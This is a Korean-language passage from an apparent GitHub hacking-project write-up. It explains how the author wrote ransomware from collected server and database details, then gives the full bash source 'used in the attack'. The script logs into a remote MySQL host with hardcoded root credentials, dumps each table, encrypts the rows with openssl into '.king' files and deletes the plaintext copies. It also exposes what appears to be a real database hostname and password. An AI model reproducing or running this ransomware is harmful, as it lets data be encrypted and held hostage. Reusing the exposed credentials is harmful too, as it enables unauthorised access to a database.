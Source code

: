 ### 수집한 정보를 바탕으로 랜섬웨어 코드를 작성

- 수집한 서버, 데이터베이스 정보를 바탕으로 서버 정보를 암호화하고 데이터베이스를 백업해 가져온 후 서버에서 삭제하는 랜섬웨어 코드를 작성한다.

> <img width="454" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/98ec2acf-bbed-49ae-b7a2-da446fdca63e">

- 다음은 공격에 사용한 DB데이터 랜섬웨어 소스코드이다.

```
#!/bin/bash

# MySQL 데이터베이스 연결 정보
DB_HOST="rds-17-hack.cggbeg5i6y5t.eu-north-1.rds.amazonaws.com"
DB_USER="root"
DB_PASS="k44g20!!"
DB_NAME="rookie"
BACKUP_DIR="$PWD/DBbackupEncrypt"  # 현재 작업 디렉토리의 하위 디렉토리 DBbackup 경로

# 암호화 키
KEY="your_secret_key"

# 데이터 암호화 함수
encrypt_data() {
    local data="$1"
    echo -n "$data" | openssl enc -aes-256-cbc -e -base64 -A -pass pass:$KEY -pbkdf2
}

# 백업 디렉토리 확인 및 생성
if [ ! -d "$BACKUP_DIR" ]; then
    echo "백업 디렉토리가 존재하지 않아 생성합니다: $BACKUP_DIR"
    mkdir -p "$BACKUP_DIR"
fi

# MySQL에 연결하여 각 테이블의 데이터를 CSV 파일로 백업 및 암호화
mysql -h "$DB_HOST" -u "$DB_USER" -p"$DB_PASS" -D "$DB_NAME" -e "SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();" | while read -r table_name; do
    # 각 테이블의 CSV 파일을 미리 생성
    backup_file="$BACKUP_DIR/$table_name.csv"
    touch "$backup_file"

    # 테이블 데이터를 CSV 파일에 백업
    mysql -h "$DB_HOST" -u "$DB_USER" -p"$DB_PASS" -D "$DB_NAME" -e "SELECT * FROM $table_name" | tr -d '\0' | while read -r line; do
        echo "$line" | awk -v OFS='[king]' '{$1=$1}1' >> "$backup_file"
    done

    # CSV 파일을 읽고 암호화된 파일로 저장 (확장자 king)
    encrypted_file="$backup_file.king"
    while read -r line; do
        encrypted_line=$(encrypt_data "$line")
        echo "$encrypted_line" >> "$encrypted_file"
    done < "$backup_file"

    # 원본 CSV 파일 삭제
    rm "$backup_file"

    echo "테이블 [$table_name] 백업 및 암호화 완료: $encrypted_file"
done

echo "모든 테이블 백업 및 암호화 완료"

```

